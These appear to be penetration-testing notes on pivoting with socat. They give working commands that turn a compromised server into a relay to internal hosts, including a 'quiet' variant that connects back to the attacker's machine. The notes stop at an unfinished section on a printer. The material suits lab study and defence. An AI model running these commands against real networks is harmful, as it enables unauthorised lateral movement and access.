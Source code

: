 ### Port Forwarding -- Easy

* The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server.
* For example, if the compromised server is `172.16.0.5` and the target is port `3306` of `172.16.0.10`, we could use the following command (on the compromised server) to create a port forward:

```
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

This opens up port `33060` on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of `172.16.0.10`.

* The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it.
* We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.

### Port Forwarding -- Quiet

* This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.
* First of all, on our own attacking machine, we issue the following command:

```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

* This opens up two ports: `8000` and `8001`, creating a local port relay. What goes into one of them will come out of the other. For this reason, port `8000` also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.
* Next, on the compromised relay server (`172.16.0.5` in the previous example) we execute this command:

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes a connection between our listening port `8001` on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

This would create a link between port `8000` on our attacking machine, and port `80` on the intended target (`172.16.0.10`), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: `172.16.0.10:80`!

### Socat Forward Port off Printer or non ssh enabled device

* Have a compromised device that is running `cupsd` port 631, however its listening only on the loopback and the printer does not have ssh.

